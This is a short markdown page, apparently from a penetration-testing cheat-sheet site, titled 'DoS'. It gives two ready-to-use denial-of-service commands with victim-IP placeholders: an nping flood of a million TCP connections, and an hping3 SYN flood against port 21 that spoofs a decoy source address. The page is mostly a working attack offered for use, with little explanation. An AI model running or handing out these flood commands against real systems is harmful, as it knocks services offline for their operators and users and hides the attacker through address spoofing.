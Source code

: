 ```yaml
---
layout: post
title:  "DoS"
categories: scan deny
summary: Take lot of TCP connections to target and create Denial-of-service (DoS)
---
```


{% include instructions.md %}

### {{page.title}}

Take lot of TCP connections to target
```shell
# nping --tcp-connect --rate=1000000 --count 1000000 [victim ip address or domain]
```

Send much as possible TCP connections to target to port 21 and change source address to a decoy IP address. Flood by sending 10000 packets using SYN flag and data size is 120.
```shell
$ sudo hping3 -V -c 10000 -d 120 -S -p 21 --flood [victim ip address] -a [decoy ip address]
```